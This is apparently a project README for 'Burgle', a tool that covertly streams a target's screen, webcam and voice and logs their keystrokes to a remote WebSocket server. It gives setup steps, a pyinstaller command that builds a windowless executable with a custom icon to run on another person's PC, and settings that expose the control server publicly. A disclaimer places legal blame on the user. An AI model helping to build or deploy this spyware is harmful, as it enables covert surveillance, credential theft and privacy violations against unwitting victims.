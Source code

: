 ﻿# Burgle

"Burgle" is a program that allows for monitoring of an individual. It is characterized by streaming the target computer's screen, webcam, the person's voice, and keylogs.

## Features

- 💻 Display Capture: Observe what the other person is doing on their computer.
- 📹 Webcam Stream: Observe what the other person is doing in front of their computer.
- 🎙️ Voice Stream: Observe what the other person is saying in front of their computer.
- 🔐 Key log: Observe what the other person is searching for on their computer.

## Installation
To install burgle, follow these simple steps:

1. ⬇️ Download: Start [download][downloadtip] .
2. 📁 Install Moudules: ``npm i`` with install python moudules. ([Python Moudule List][list])
3. ⚒️ Fix Server Address: 
    - js:
        ```js
        socket = new WebSocket('ws://your-server-address:your-port');
        ```

        **__[link][link1]__**

    - Python:
        ```py 
        server = websockets.serve(module-name, "your-server-address", 8765)
        ```

        **__[link][link2]__**
4. 🏃‍♀️ Start Burgle: 
    
    - start hacking tool:
        ```ps
        python main.py
        ```
    - start web server:
        ```ps
        npm start
        ```

### **How to run this program on another PC**
To run this program on another PC, follow these simple steps:

1. Install: install pyinstaller
    
    - terminal
        ``` ps
        pip install pyinstaller
        ```
2. Build:
    - terminal
        ``` ps
        pyinstaller -w -F -n=Burgle --icon=./img/badQuema.png ./main.py
        ```

    - [main.py][main]

3. 🏃‍♀️ **to run this program on another PC!**

## Option
- Configure web server access permissions:
    - Individual:
    
        ```js
        const server = app.listen(port, 'localhost', () => {
            const port = server.address().port;
            console.log(`Server is running on port ${port}`);
        });
        ```
    - Global:
    
        ```js
        const server = app.listen(port, '0.0.0.0', () => {
            const port = server.address().port;
            console.log(`Server is running on port ${port}`);
        });
        ```

> [!WARNING]  
> This template is a tool developed for specific purposes.  
> **Improper use of this project may result in illegal outcomes, and the responsibility lies solely with the user.**  
>**The creator assumes no responsibility for any legal or ethical issues arising from the use of this template.**

[downloadtip]: ./DownloadTip.md
[list]: ./requirements.txt
[link1]: ./server/public/js/
[link2]: ./hack/
[main]: ./main.py
